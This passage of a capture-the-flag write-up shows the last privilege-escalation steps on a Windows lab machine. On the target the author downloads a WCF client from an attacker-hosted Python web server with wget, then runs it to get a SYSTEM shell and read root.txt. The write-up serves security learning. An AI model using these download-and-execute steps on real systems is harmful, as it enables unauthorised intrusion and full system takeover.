 

```powershell
PS C:\temp> wget 10.10.14.12/client.zip -o client.zip
PS C:\temp> Expand-Archive -Path .\client.zip -DestinationPath .
```

```powershell
PS C:\Users\User\source\repos\wcf\Client\bin\Release > python -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:10.10.10.219 - - [16/Mar/2021 17:34:52] "GET /WcfClient.exe HTTP/1.1" 200 -
::ffff:10.10.10.219 - - [16/Mar/2021 17:36:34] "GET /WcfRemotingLibrary.dll HTTP/1.1" 200 -
```

We successfully download the client and the required dll. Now we can execute the client.

```powershell
PS C:\temp> .\client.exe
PS> whoami
nt authority\system
```

We successfully get code-execution as nt authority\system and can now read root.txt.

```powershell
PS C:\temp> .\client.exe
PS> type C:\Users\Administrator\Desktop\root.txt
6a64f***************************
```
